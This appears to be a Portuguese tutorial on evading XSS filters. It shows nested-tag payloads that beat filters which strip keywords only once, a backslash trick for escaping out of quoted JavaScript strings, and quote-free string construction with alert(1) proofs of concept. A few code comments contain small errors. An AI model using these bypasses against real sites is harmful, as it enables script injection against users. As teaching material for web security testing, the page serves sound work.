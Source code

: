 Frequentemente os mecanismos de segurança acabam sanitizando potenciais vetores de ataque XSS. O mais comum é o HTML encode que troca alguns caracteres como: < (```&lt;```) e > (```&gt;```). Em algumas situações o filtro vai remover a palavra chave como a tag \<script>

Uma má configuração comum é remover somente o primeiro encontro da expressão, isso permite, por exemplo, realizar o bypass da seguinte maneira:

```html
<script>alert(1)</script>   // Block

<scr<script>ipt>alert(1)</script>
```

Alguns filtros realizam buscas recursivas, porém, normalmente eles são configurados para verificar uma palavra recursivamente e quando a verificação acaba ele vai para a próxima palavra, ao final ele não volta a verificar uma palavra que já passou.

Isso permite que o bypass seja realizado da seguinte forma:

```html
<script>alert(1)</script>   // Block

<scr<iframe>ipt>alert(1)</script>
```

Dependendo do vetor de ataque, também é possível usar algumas técnicas vistas anteriormente
## Escaping Quotes

Normalmente quando conseguimos injetar um código JavaScript ele está dentro de aspas, e quando tentamos colocar alguma aspas para terminar a string ela é escapada com o \

Imaginamos o seguinte cenário:

```html
<script>
	var key = 'randomkey';
</script>
```

Nosso payload é injetado no lugar de "randomkey". Podemos tentar realizar o bypass enviando também uma "\\". 

Exemplo:

```javascript
randomkey' alert(1); //   <= Payload enviado
randomkey\' alert(1); //  <= Resultado (Caractere escapado, não executando o alert)

randomkey\' alert(1); //   <= Payload enviado
randomkey\\' alert(1); //  <= Resultado (Só o \ foi escapado, permitindo finalizar a string)
```

Um método útil é o String.fromCharCode() que permite gerar strings a partir de uma sequência de valores unicode

```javascript
String.fromCharCode(120,115,9416) 
// 120 = U+0078 = Letra x
// 115 = U+0073 = Letra S
// 120 = U+24C8 = Letra S

// Outras formas
/Minha string/.source
43804..toString(36)  // Base36
```
